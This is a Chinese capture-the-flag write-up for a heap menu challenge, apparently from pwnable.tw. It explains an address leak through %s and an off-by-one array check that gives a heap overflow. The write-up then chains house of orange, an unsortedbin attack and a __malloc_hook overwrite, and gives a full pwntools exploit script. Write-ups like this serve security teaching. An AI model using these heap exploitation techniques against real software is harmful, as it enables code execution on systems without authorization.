





经典的菜单堆题目



然后add函数很简单，输入大小，然后创建堆，堆地址跟大小都储存在.bss段。虽然有个计数位但是没啥用，主要控制堆数量的地址方还是数组是否有空位。



然后是show函数，比较简单，这里就不贴出来了，就是指定堆块打印数据，但是是利用%s进行打印，可以利用其性质进行泄漏数据。

edit函数，也是比较简单。重新输入数据然后重置堆块数据大小。



iof函数就是一个用来操控一段.bss段数据的函数。



这里的漏洞点其实有两个，一个是iof函数里面输入函数。

```
return read((__int64)byte_602060, 0x40u);
```

没有强行加截断符，并且打印利用了%s。



由于两个数据区相邻，可以直接泄漏出addr数组的第一个数据。

所以可以利用这个漏洞去泄露堆地址。但是好像没啥用。

然后就是这个程序的主要漏洞。

add函数里面进行判断数组是否满了的for循环判断是>8

```
 for ( i = 0; ; ++i )
  {
    if ( i > 8 )
      return puts("You can't add new page anymore!");
    if ( !(&adder)[i] )
      break;
  }
```

但是addr数组一共只有8个元素。所以我们可以创建第9个堆去覆盖第一个堆块的size。

这里由于要绕过

```
if ( !(&adder)[i] )
```

所以创建之前要先把第一个堆块的size清空。

然后就产生了堆溢出。

但是看完整个程序会发现没有free函数。然后我们需要利用house of orange。刚好堆溢出很大能碰到topchunk。

将topchunk改小然后再次申请一个大堆块(要大于我们改的大小)，然后会触发sysmalloc。还有这里更改的大小要保证页对齐（就是堆块结束的地方是页对齐的）才能触发sysmalloc不然会识别到堆区损毁走nmap分配这条路线。

然后我们就拿到了一个进入unsortedbin的堆块。

然后还是利用这个过量的堆溢出去覆盖泄露libc地址。拿到libc地址之后，我们仅仅有一块unsortedbin的堆块。可以利用unsortedbinattack去写入地址到iof函数控制的地址。这里主要是利用写入地址的同时会把这块地址并入unsortedbin里面作为第一个堆块去分配。之后就是利用iof函数进行堆块合法化（补充bk跟头区）。注意这里在触发unsortedbinattack的时候要一次性取出完整的堆块，后面取控制的地址也是。

```
from pwn import *

context.arch = 'amd64'
#r=remote('chall.pwnable.tw',10304)
r = process('./11')
libc = ELF('./libc.so.6')
def add(size,txt):
    r.sendlineafter(b'Your choice :',b'1')
    r.sendlineafter(b'Size of page :',str(size).encode())
    r.sendlineafter(b'Content :',txt)
def show(index):
    r.sendlineafter(b'Your choice :',b'2')
    r.sendlineafter(b':',str(index).encode())
    
def edit(index,txt):
    r.sendlineafter(b'Your choice :',b'3')
    r.sendlineafter(b'Index of page :',str(index).encode())
    r.sendafter(b'Content:',txt)
def iof(Y,txt):
    r.sendlineafter(b'Your choice :',b'4')
    r.sendlineafter(b'(yes:1 / no:0) ',Y)
    if Y==b'1':
        r.sendlineafter(b':',txt)
r.sendafter(b'Author :',b'a'*0x3f+b'b')
r.sendlineafter(b'Your choice :',b'4')
r.sendlineafter(b'(yes:1 / no:0) ',b'0')
add(0x30,p64(0))
r.sendlineafter(b'Your choice :',b'4')
r.recvuntil(b'ab')
heap = u64(r.recv(4).ljust(8,b'\x00')) - 0x10
print(hex(heap))
r.sendlineafter(b'(yes:1 / no:0) ',b'1')
r.sendlineafter(b':',p64(0)+p64(0x91)+p64(heap+0x1250)*2)
for i in range(0,6):
    add(0x10,p64(0))
add(0x10,p64(0))
r.sendlineafter(b'Your choice :',b'3')
r.sendlineafter(b':',b'0')
r.sendline()
add(0x30,p64(0))
payload = p64(0)*6+(p64(0)+p64(0x21)+p64(0)*2)*7+p64(0)+p64(0x41)+p64(0)*6+p64(0)+p64(0xe91)
edit(0,payload)
r.sendlineafter(b'Your choice :',b'3')
r.sendlineafter(b':',b'0')
r.sendline()
add(0x1000,p64(0))
edit(0,b'a'*8*6+(b'a'*8+b'a'*8+b'a'*8*2)*6+b'a'*8+b'a'*8+b'a'*0x10+b'a'*8+b'a'*0x4f+b'b')#
show(7)

r.recvuntil(b'b')
libc_addr = u64(r.recv(6).ljust(8,b'\x00')) 
libc_base = libc_addr - 0x3c3b78
print(hex(libc_base))

edit(0,p64(0)*6+(p64(0)+p64(0x21)+p64(0)*2)*7+p64(0)+p64(0x41)+p64(0)*6+p64(0)+p64(0xe91)+p64(libc_addr)+p32(0x602060)+p8(0)*4)
r.sendlineafter(b'Your choice :',b'3')
r.sendlineafter(b'Index of page :',b'0')
r.sendline()
add(0xe80,p64(0))
r.sendlineafter(b'Your choice :',b'3')
r.sendlineafter(b'Index of page :',b'0')
r.sendline()
hook = libc_base + libc.sym['__malloc_hook']
one = libc_base + 0xf0567
add(0x80,p64(0)*6+p64(heap)+p64(hook))
edit(1,p64(one))
r.sendlineafter(b'Your choice :',b'3')
r.sendlineafter(b'Index of page :',b'0')
r.sendline()
r.sendlineafter(b'Your choice :',b'1')
r.sendlineafter(b'Size of page :',b'32')
gdb.attach(r)

r.interactive()
```

这里写脚本的时候远程跟本地是有些差别的，远程需要优化stdio的缓冲区分配。由于程序开头

```
  setvbuf(stdout, 0, 2, 0);
```

所以当我们第一次调用scanf函数的时候会在堆区创建0x1011的堆块。所以不能把这个超大堆块放在我们堆溢出堆块之后，不然之后的覆盖字节过大远程会发送阻塞。

然后还有一些细节点，卡了我不少时间，但是定位到问题点就一眼明白原因了，我就不说了。